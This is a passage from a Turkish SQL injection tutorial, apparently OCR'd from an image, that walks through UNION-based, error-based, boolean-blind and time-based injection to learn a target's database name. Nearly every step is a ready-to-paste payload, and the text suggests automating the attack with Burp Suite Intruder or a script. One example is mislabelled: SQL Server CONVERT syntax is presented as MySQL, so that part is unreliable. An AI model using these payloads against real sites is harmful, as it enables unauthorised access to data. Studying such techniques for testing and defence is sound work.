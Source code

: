 ✅ Hata verdiği yerde sütun sayısını bulmuş olursun.
Daha sonra:
sql
```sql
' UNION SELECT NULL, database(), NULL-- -
```
✅ Veritabanı adını ikinci sütunda görüntüleyebilirsin.

3️⃣ Error-Based SQL Injection ile Veritabanı İsmini Öğrenme
Eğer sistem hata mesajlarını döndürüyorsa, hata tabanlı SQL Injection yöntemini kullanabilirsin.
MySQL için:
sql
```sql
' AND 1=CONVERT(int, (SELECT database()))-- -
```

💡 Eğer sistem MySQL kullanıyorsa, bu sorgu bir hata döndürerek veritabanı adını gösterebilir.
MSSQL için:
sql
```sql
' AND 1=(SELECT DB_NAME())-- -
```
💡 MSSQL veritabanı adı döndürmeye çalışacaktır.

4️⃣ Boolean-Based (Kör SQL Injection) ile Veritabanı İsmini Öğrenme
Eğer sistem hata mesajlarını göstermiyor ama yanıt süreleri veya sonuçlar değişiyorsa, boolean tabanlı SQL Injection kullanılabilir.
Adım 1: Veritabanı adı tahmin etme
sql
```sql
' AND (SELECT database())='test_db'-- -
```
✅ Eğer sayfa aynı şekilde yükleniyorsa, veritabanı adı test_db olabilir.
✅ Eğer hata veriyorsa veya değişiklik oluyorsa, yanlış tahmin etmiş olabilirsin.
Adım 2: Karakter karakter doğrulama
Eğer veritabanı adını bilmiyorsan ve sistem tek karakterlik karşılaştırmalar yapıyorsa:
sql
```sql
' AND substring(database(),1,1)='t'-- -
```

✅ Eğer sayfa doğru yükleniyorsa, ilk harf t olabilir.
Bunu karakter karakter deneyerek devam edebilirsin:
sql
```sql
' AND substring(database(),2,1)='e'-- -
```

📌 Bu yöntemi otomatikleştirmek için Burp Suite Intruder veya bir Python scripti yazabilirsin.

5️⃣ Time-Based SQL Injection ile Veritabanı İsmini Öğrenme
Bazı durumlarda hiçbir hata mesajı veya yanıt farkı olmuyorsa, time-based SQL Injection kullanabilirsin.
MySQL için:
sql
```sql
' AND IF(database()='test_db', SLEEP(5), 0)-- -
```
